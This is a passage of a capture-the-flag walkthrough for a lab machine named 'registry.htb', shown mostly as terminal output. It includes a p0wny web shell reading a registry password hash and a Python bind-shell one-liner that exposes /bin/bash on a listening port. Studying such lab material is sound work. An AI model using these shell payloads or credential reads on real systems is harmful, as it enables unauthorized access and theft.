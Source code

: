Now we can log in with ssh as "bolt". And user flag:
```
bolt@bolt:~$ cat user.txt 
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
bolt@bolt:~$
```

# The root flag

What next ?

## Linux smart enum

```
scp -i bolt-image.root_rsa bolt@docker.registry.htb:/dev/shm/rapsa.txt .
Enter passphrase for key 'bolt-image.root_rsa': 
rapsa.txt                                
```

```
p0wny@shell:…/www/html# cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```


```
p0wny@shell:/# cat srv/docker-registry/auth/registry.password
admin:$2y$05$MQ.s8qTZnGX657si5k7a9eCNn3NRccEg1TNoXjNmF2niYQ5FOgMzy

root      1423   983  0 19:55 ?        00:00:03 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 5000 -container-ip 172.18.0.2 -container-port 5000
root      1431   982  0 19:55 ?        00:00:00 containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/613c70fa3dba2046a1257c6764d8d65864b93f23e81e907e0d9fb925a8c92d57 -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
root      1456  1431  0 19:55 ?        00:00:04 registry serve /etc/docker/registry/config.yml
www-data  1598  1194  0 19:57 ?        00:00:00 sh -c python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',11223));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])" 2>&1
www-data  1599  1598  0 19:57 ?        00:00:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',11223));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])
www-data  1600  1599  0 19:57 ?        00:00:00 /bin/bash -i
www-data  1604  1600  0 19:57 ? 
```

## Forward shell

Forward shell instead of revere shell for a change :) 

```
p0wny@shell:/# python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',11111));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])" 2>&1

root      2290  1874  0 20:19 pts/1    00:00:00 sudo restic backup -r rest:/root/root.txt
root      2294  2290  0 20:19 pts/1    00:00:00 restic backup -r rest:/root/root.txt
```

